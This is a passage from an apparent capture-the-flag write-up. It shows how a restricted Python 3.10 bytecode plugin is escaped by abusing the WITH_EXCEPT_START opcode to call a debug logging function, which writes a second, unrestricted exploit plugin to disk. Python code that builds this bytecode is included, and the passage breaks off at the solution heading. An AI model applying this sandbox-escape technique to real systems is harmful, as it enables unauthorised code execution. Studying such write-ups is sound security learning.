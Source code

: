– https://docs.python.org/3.10/library/dis.html#opcode-WITH_EXCEPT_START

Which means we have essentially found a
[CALL_FUNCTION](https://docs.python.org/3.10/library/dis.html#opcode-
CALL_FUNCTION) operation with a few restrictions. Fortunately, the challenge
authors gave us access to a debug function that is now very useful:

```  
def plugin_log(msg,filename='./log',raw=False):  
   mode = 'ab' if raw else 'a'

   with open(filename,mode) as logfile:  
       logfile.write(msg)  
```

And coincidently, this function exactly takes three arguments which can be
passed with `WITH_EXCEPT_START`.

Since all data entries are passed to the plugin code via `co_consts`, we can
reference them as arguments, as long as they're in the boundaries we can
access (meaning indexes `0x30`-`0x39` for `"0"`-`"9"` and `0x61`-`0x66` for
`"a"`-`"f"`).

This means we can use this function to pass our real (unrestricted) exploit
bytecode as keys of the storage and write these to another plugin file which
will be our final exploit plugin.

So we now can generate the bytecode that will call the function
`co_consts[func_index]` with the arguments `co_consts[content_index]` and
`co_consts[filename_index]`:

```  
def load_const(index=0x30):  
   return bytes([opmap["LOAD_CONST"], index])

def get_plugin_code(func_index, filename_index, content_index):  
   return (  
       # pos 7 on the stack is the plugin_log function  
       load_const(func_index)  
       # pos 4-6 are unused  
       # pos 3 contains the "raw" argument (must be non-zero)  
       + load_const() * 4  
       # pos 2 contains the "filename"  
       + load_const(filename_index)  
       # pos 1 contains the "msg"  
       + load_const(content_index)  
       # now trigger the "exception handler"  
       + bytes([[opmap["WITH_EXCEPT_START"], 0x30])  
   )  
```

## Solution

So to conclude, we can now:
